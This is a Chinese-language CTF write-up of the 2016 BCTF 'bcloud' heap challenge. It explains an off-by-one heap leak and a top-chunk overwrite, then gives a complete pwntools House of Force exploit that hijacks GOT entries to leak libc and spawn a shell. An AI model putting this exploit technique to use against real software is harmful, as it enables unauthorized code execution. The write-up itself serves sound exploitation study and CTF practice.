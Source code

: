 
title: 2016 BCTF bcloud (House Of Force)

date: 2018-04-17 21:24:31

categories:
- CTF
- House Of Force


## 基本分析

题目下载链接

https://github.com/ctfs/write-ups-2016/tree/master/bctf-2016/exploit/bcloud-200

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

程序大概是一个云笔记管理系统。

1. 新建note，根据用户的输入x申请x+4的空间作为note的大小。
2. 展示note，啥功能也没有。。
3. 编辑note，根据用户指定的 note 编辑对应的内容。
4. 删除note，删除对应note。
5. 同步note，标记所有的note已经被同步。

### 初始化名字

**在程序初始化的时候有两个漏洞。**

这里如果程序读入的名字为64个字符，那么当程序在使用info函数输出对应的字符串时，就会输出对应的tmp指针内容，也就是说**泄露了堆的地址**。

**输入的大小为0x40时最后的0x00 会溢出到*tmp，紧接着会malloc(0x40)覆盖掉输入的0x00截断。**

```c
unsigned int init_name(){
  char s; // [esp+1Ch] [ebp-5Ch]
  char *tmp; // [esp+5Ch] [ebp-1Ch]
  unsigned int v3; // [esp+6Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  memset(&s, 0, 0x50u);
  puts("Input your name:");
  read_str(&s, 0x40, '\n');
  tmp = (char *)malloc(0x40u);
  name = tmp;
  strcpy(tmp, &s);
  info(tmp);
  return __readgsdword(0x14u) ^ v3;
}
```

### 初始化组织和org的时候存在漏洞

```c
unsigned int init_org_host(){
  char s; // [esp+1Ch] [ebp-9Ch]
  char *v2; // [esp+5Ch] [ebp-5Ch]
  char v3; // [esp+60h] [ebp-58h]
  char *v4; // [esp+A4h] [ebp-14h]
  unsigned int v5; // [esp+ACh] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  memset(&s, 0, 0x90u);
  puts("Org:");
  read_str(&s, 64, 10);
  puts("Host:");
  read_str(&v3, 64, 10);
  v4 = (char *)malloc(0x40u);
  v2 = (char *)malloc(0x40u);
  org = v2;
  host = v4;
  strcpy(v4, &v3);
  strcpy(v2, &s);
  puts("OKay! Enjoy:)");
  return __readgsdword(0x14u) ^ v5;
}
```

当读入组织时，给定 0x40 字节，会覆盖 v2 的低地址。与此同时，我们可以知道 v2 是与 top chunk 相邻的 chunk，而 v2 恰好与 org 相邻，那么由于在 32 位程序中，一般都是 32 位全部都使用，这里 v2 所存储的内容，几乎很大程度上都不是 `\x00` ，所以当执行 strcpy 函数向 v2 中拷贝内容时，很有可能会覆盖top chunk。这就是漏洞所在。

## 利用

1. `get_name` 处利用漏洞，拿到 `heap` 的地址，计算 `top chunk` 的地址
2. `house of force` 分配到 `note_ptr_table` 的地址
3. 利用 `edit` 功能实现任意地址写
4. 把`free@got` 改成 `puts@plt`，实现任意地址读
5. 读 `puts@got` 拿到 `libc` 的基地址
6. 修改 `aoti@got` 为 `system`
7. 发送 `sh` , 触发 `aoti("sh")`, 实际执行的是 `system("sh")`

### 完整利用

```python
#/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
# context.terminal = ['tmux', 'splitw', '-h']
# context(log_level='debug')

free_got = 0x0804B014
puts_plt = 0x08048520
puts_got = 0x0804B024

p = process("./bcloud")
pause()
p.recvuntil("Input your name:")
p.send("a" * 0x40)
p.recv(0x44)
p.recv(0x44)
heap = u32(p.recv(4)) - 0x8
top_chunk_addr = heap + 216
log.info("got heap: " + hex(heap))
log.info("got top_chunk_addr: " + hex(top_chunk_addr))
pause()
# p.recvuntil("Org:")
p.send("b" * 0x40)
payload = p32(0xffffffff)  #  top chunk 的 size 位
payload += "c" * (0x40 - len(payload))
p.recvuntil("Host:")
p.send(payload)
bss_addr = 0x0804B120   #  note_ptr_table 的地址
evil_size = bss_addr - 8 - top_chunk_addr  # 计算一个size , 用于在第二次 malloc 是返回 bss_addr
log.info("evil_size: " + hex(evil_size))
log.info("set top chunk size: 0xffffffff")
pause()



p.recvuntil("option--->>")
p.sendline("1")
p.recvuntil("note content:")
p.sendline(str(evil_size-8-4))   # malloc(len + 4), note0
p.recvuntil("Input the content:")
p.sendline("a" * 4)


## 
p.recvuntil("option--->>")
p.sendline("1")
p.recvuntil("note content:")
p.sendline(str(0x40))       #  此时分配到 note1,  note1 ---> bss_addr
p.recvuntil("Input the content:")
payload = p32(free_got)
payload += p32(bss_addr)  # 为了维持控制，使得 note_ptr_table[1] 的值始终为 note_ptr_table 的地址
p.sendline(payload)


## note 2
p.recvuntil("option--->>")
p.sendline("1")
p.recvuntil("note content:")
p.sendline(str(0x40))
p.recvuntil("Input the content:")
p.sendline("a" * 4)


log.info("note0--->free@got , note1--->ptr_table")


pause()
p.recvuntil("option--->>")
p.sendline("3")
p.recvuntil("Input the id:")
p.sendline(str(1))
p.recvuntil("Input the new content:")
payload = p32(free_got)
payload += p32(bss_addr)
payload += p32(free_got)   # target addr , 要写的地址
payload += p32(puts_got)
p.sendline(payload)


p.recvuntil("option--->>")
p.sendline("3")
p.recvuntil("Input the id:")
p.sendline(str(2))
p.recvuntil("Input the new content:")
p.sendline(p32(puts_plt))   # data to write，要写的数据
log.info("free@got ---> puts_plt")



pause()
p.recvuntil("option--->>")
p.sendline("4")
p.recvuntil("Input the id:")
p.sendline(str(3))   # free -> puts , get puts addr  
libc = u32(p.recvuntil("Delete success.")[1:5]) - 0x5fca0 # readelf -a libc.so.6| grep puts  
system = libc + 0x3ada0   # readelf -a libc.so.6| grep system  , get system offset
log.info("libc: " + hex(libc))
log.info("system: " + hex(system))


pause()
p.recvuntil("option--->>")
p.sendline("3")
p.recvuntil("Input the id:")
p.sendline(str(1))
p.recvuntil("Input the new content:")
aoti_got = 0x0804B03C   # IDA , 
payload = p32(free_got)
payload += p32(bss_addr)
payload += p32(aoti_got)
p.sendline(payload)


p.recvuntil("option--->>")
p.sendline("3")
p.recvuntil("Input the id:")
p.sendline(str(2))
p.recvuntil("Input the new content:")
p.sendline(p32(system))
log.info("aoti--->system")
pause()

p.sendline("/bin/sh")
p.interactive()
```



## 参考

[Attack Top Chunk之 bcloud](http://blog.hac425.top/2018/03/21/tack_top_chunk_bcloud.html)

[BCTF bcloud - Exploitation 150](http://uaf.io/exploitation/2016/03/20/BCTF-bcloud.html)

[House Of Force](https://ctf-wiki.github.io/ctf-wiki/pwn/heap/house_of_force/#2016-bctf-bcloud)

